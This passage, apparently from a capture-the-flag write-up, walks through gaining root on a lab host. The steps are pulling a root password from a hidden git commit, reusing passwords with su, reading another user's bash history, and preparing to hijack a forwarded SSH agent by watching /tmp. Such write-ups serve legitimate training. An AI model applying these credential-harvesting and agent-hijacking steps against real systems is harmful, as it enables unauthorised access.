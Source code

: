 There is another hidden commit that contains a password for a root user:
```
git diff 0d426b5
```
```
(...)
-spring.datasource.url=jdbc:mysql://localhost:3306/db
-spring.datasource.username=root
-spring.datasource.password=g_xEN$ZuWD7hJf2G
(...)
```

As we do not have root access to the _Kaneki-PC_ yet, the passwords should be tried out there:
```
kaneki_pub@kaneki-pc:~$ su -
Password: 7^Grc%C\7xEQ?tb4
```

One of the passwords works and root access on _Kaneki-PC (172.18.0.200)_ is gained.
There is a _root.txt_ that does not contain the real flag:
```
You've done well to come upto here human. But what you seek doesn't lie here. The journey isn't over yet.....
```

## Checking SSH (Port 2222)

The port 2222 was never used in any of the containers and by trying to connect there from our local client, it will close the connection:
```
ssh -p2222 -i kaneki.key kaneki_pub@10.10.10.101
Enter passphrase for key 'kaneki.key':

Connection closed by 10.10.10.101 port 2222
```

There is another home directory on _Kaneki-PC_ for the user _kaneki_adm_ that has a _.bash_history_ in the home folder:
```
root@kaneki-pc:~# cat /home/kaneki_adm/.bash_history
```
```
ssh root@172.18.0.1 -p 2222
ssh root@172.18.0.1 -p 2222 -v
exit
```

The SSH configuration file _/etc/ssh/ssh_config_ has the _ForwardAgent_ feature enabled and this is kind of like a **Single-Sign-One (SSO)** setting.
This feature generates a directory in _/tmp_ after a user logs in.

When looking for logged in users with the `last` command, it looks like that a login is made every six minutes.
Lets watch the _/tmp_ directory continuously:
```
cd /tmp

watch -n 1 "ls | grep -v 'ssh-1Oo5P5JuouKm\|ssh-FWSgs7xBNwzU\|ssh-jDhFSu7EeAnz'"
```
